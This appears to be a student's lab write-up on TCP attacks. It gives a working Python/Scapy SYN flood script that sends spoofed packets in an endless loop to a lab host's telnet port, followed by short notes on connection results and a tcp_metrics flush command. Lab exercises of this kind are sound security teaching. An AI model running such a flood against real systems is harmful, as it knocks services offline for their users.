



# TCP Protocol and Attacks

## Task 1.1 Launching the Attack Using Python

Creating synflood.py

#### Script used:
``` python 
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")            #IP of victim
tcp = TCP(dport=23, flags='S')     #Port of victim
pkt = ip/tcp

while True:
        pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
        pkt[TCP].sport = getrandbits(16) # source port
        pkt[TCP].seq = getrandbits(32) # sequence number
        send(pkt, verbose = 0)
```

Receiving of SYN Requests:



Even when reducing the size of queue, other users were able to create a telnet connection to the victim.
The amount of SYN request reduced from 64 (Limit 80) to 16 (Limit 20).

Observation:
While user1 could build a connection, user 2 was not able to.



After  using the following command, none od the users could connect.

# ip tcp_metrics flush



